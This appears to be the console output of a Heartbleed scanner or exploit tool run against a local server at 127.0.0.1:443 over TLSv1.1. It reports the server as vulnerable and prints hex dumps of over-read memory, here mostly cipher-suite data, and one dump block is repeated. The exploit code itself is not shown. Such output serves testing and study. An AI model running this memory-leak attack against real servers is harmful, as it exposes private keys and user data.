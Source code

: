   01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.1
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 02 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

